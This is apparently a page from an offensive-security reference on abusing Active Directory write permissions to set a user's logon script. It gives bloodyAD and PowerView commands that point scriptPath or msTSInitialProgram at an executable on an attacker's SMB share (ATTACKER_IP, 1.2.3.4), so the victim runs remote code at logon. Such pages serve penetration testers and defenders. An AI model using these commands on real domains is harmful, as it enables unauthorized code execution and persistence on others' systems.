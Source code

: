 # Logon script

This abuse can be carried out when controlling an object that has a `GenericAll` or `GenericWrite` over the target, or a `WriteProperty` premission over the target's logon script attribute (i.e. `scriptPath` or `msTSInitialProgram`).

The attacker can make the user execute a custom script at logon.

{% tabs %}
{% tab title="UNIX-like" %}
This can be achieved with [bloodyAD](https://github.com/CravateRouge/bloodyAD).

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user msTSInitialProgram -v '\\1.2.3.4\share\file.exe'
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user msTSWorkDirectory -v 'C:\'

# or
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user scriptPath -v '\\1.2.3.4\share\file.exe'
```
{% endtab %}

{% tab title="Windows" %}
This can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
Set-DomainObject testuser -Set @{'msTSTnitialProgram'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose

Set-DomainObject testuser -Set @{'scriptPath'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose
```
{% endtab %}
{% endtabs %}
